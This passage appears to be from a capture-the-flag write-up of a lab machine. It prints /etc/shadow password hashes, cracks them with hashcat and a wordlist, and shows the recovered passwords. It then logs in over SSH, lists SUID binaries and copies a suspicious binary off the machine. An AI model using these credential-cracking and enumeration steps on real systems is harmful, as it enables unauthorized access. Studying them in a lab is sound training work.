 ```bash
sshd:*:17737:0:99999:7:::
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
```

### Cracking hashes

We can crack the hashes using hashcat and `-m 1800` because the hashes are sha512crypt

```
.\hashcat.exe -m 1800 .\hash.txt .\rockyou.txt
```

And the we have `password123` that isn't useful and `iamgod$08` that we are going to use to ssh as margo

### Enumerating as margo

```bash
ssh margo@10.10.10.139
```

Looking for SUID files:

```bash
find / -perm -u=s -type f 2>/dev/null
/usr/bin/at           
/usr/bin/newgrp           
/usr/bin/pkexec             
/usr/bin/passwd             
/usr/bin/gpasswd               
/usr/bin/garbage              
/usr/bin/newuidmap
---
---
---
```

`/usr/bin/garbage` isn't a common binary

```bash
/usr/bin/garbage 
Enter access password: asdasd

access denied.
```

I'll transfer it to my machine:

```bash
scp margo@10.10.10.139:/usr/bin/garbage .
```
